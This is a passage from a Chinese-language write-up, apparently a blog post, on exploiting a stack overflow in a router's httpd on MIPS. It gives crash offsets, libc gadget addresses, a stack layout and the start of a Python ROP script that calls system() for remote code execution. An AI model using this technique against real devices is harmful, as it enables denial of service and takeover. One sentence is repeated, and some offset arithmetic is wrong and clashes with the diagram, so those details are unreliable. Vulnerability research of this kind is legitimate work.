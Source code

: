 对于我们的初始负载，我们可以使用集成在 pwndbg 中的 cyclic 来生成一个负载；发送一个相当大的负载后，我们可以看到程序由于无效返回地址而收到 段错误，这首先允许我们在组件 ./bin/httpd 上引起 DoS 并使路由器停止工作！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yGKTU8En1lUTWmh7rj1ico6AEgUG1JKXyZg8DkyrTgG9FgQ0kKdK91ZNE7RLs9AqhLAHtNaXkO4xug/640?wx_fmt=png&from=appmsg "")  
  
此时，使用 pwndbg 集成的 cyclic -l 可以让我们计算被劫持的流控制偏移量相对于我们发送的数据；我们可以知道控制流的迁移发生在 偏移量 123，b'bgaa' (hex: 0x62676161)；这意味着将该偏移量替换为指针允许我们将控制流操纵到该地址，以此为基础，我们可以开始我们的高级 ROP 并实现我们的最终目标：远程代码执行。  
### MIP ROP: 指针世界  
  
对于 mips 架构，ROP 将是一个不同于我们在 Intel 语法中最熟悉的 ROP 的主题；MIPS 架构使用不同的机制来实现函数返回。具体来说，MIPS 使用寄存器和跳转指令来实现函数返回，主要通过 jal 和 ja $ra，因为它们主要关注 $sp 的使用；因此在 mips 的 ROP 中，我们不能总是使用如 pop rdi, ret 这样的 gadgets 来控制执行流，而是要更多地关注 寄存器 和 指针；这使得 ROP 更加困难，因为在 gadgets 之间频繁变化的 $sp 上需要进行大量的预设置和改变，此外这也使得我们在预先计划堆栈 gadgets 和目标时更加混乱。  
  
首先，由于提供给我们的 IDA Pro 的 mipsrop 插件非常出色，我们可以扫描可用的 Gadgets 以进行 ROP 流控制。为了更大的利用空间，我们决定将重点放在 lib/libc.so 动态链接库上作为我们的 gadget 库，而路由器文件系统未受 ASLR 保护（如果受保护我们可以通过 ROP 泄漏），我们可以将它们调用到固定的 libc_base 偏移量；在我们的例子中，通过 vmmap 知道 libc_base 对于 libc.so -> (77f59000-77fe5000 r-xp 00000000 08:01 788000) 位于 77f59000。知道这一点后，我们可以尝试找到用于流控制的 gadgets。  
#### 尝试 1：$a0 操作  
  
Mipsrop 为我们提供了 misrop.system() 方法，用于定位 $a0 修改与相应的流控制 gadget 它们排列得非常接近。在我们的案例中，我们在 libc.so 中找到了这两个：  
```
Python>mipsrop.system()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0004D144  |  addiu $a0,$sp,0x24+var_C                            |  jr    0x24+var_s0($sp)                |
|  0x00058920  |  addiu $a0,$sp,0x28+var_C                            |  jr    0x28+var_4($sp)                 |
----------------------------------------------------------------------------------------------------------------

```  
  
正如这两个 gadget 在 0x0004D144 和 0x00058920 所示，它们都允许我们通过寄存器 $sp（addiu x,y,z = x = y+z）在堆栈上的偏移量控制寄存器 $a0（第一个参数寄存器），同时直接 jr（跳转）到另一个由 $sp 控制的堆栈偏移量；这允许我们在通过我们可以控制的堆栈数据控制流到另一个调用函数之前控制 $a0 用于参数传递！例如，在 libc.so 中的 gadget 0x0004D144，我们可以首先将 $pc 填充为 libc_base + 0x0004D144 ，将预期的 $a0 值填充到 $sp 的偏移量 0x24+var_C（此值等于 0x24 - 0xC = +0x24），然后将 $sp 偏移量 0x24+var_s0（0x24+0）填充到 jr 跳转地址；创建这样的堆栈结构：  
```
+------offset------+------value------+
|     ret_addr     +  gadget 0x4D144 |
|------------------+-----------------|
|     $sp+0x18     +    $a0_addr     |
|------------------+-----------------|
|     $sp+0x24     +    jr_addr         |
+------------------+-----------------+

```  
  
现在我们知道 $pc 寄存器在 偏移量 123（b'bgaa' (hex: 0x62676161)） 通过 cyclic 得出，也知道 $sp 在 偏移量 127（b'bhaa' (hex: 0x61616862)）；此外，我们还需要找到 ROP 的目标，在这种情况下，由于我们已经通过 vmmap（/proc/<pid>/maps）获得了 libc_base 地址，并通过 cyclic 模式字符串获得了 $pc 和 $sp 偏移量；此外，我们还需要找到 ROP 的目标，在这种情况下，由于我们已经通过 vmmap（/proc/<pid>/maps）获得了 libc_base 地址，并通过 cyclic 模式字符串获得了 $pc 和 $sp 偏移量；我们将 jr_addr 操作为 libc_base + _system（libc.so 的 system 符号），同时将 $sp+0x30 操作为传递到 _system 的 $a0，即命令字符串；这将为我们提供第一个利用：  
```

    def _rop(ropcmd: RopCmd):

        # 77f59000-77fe5000 r-xp 00000000 08:01 788000 
        libc_base = 0x77f59000

        ret_offset = 0x7b # --> b'bgaa'
        sp_offset  = 0x7f # --> b'bhaa'
```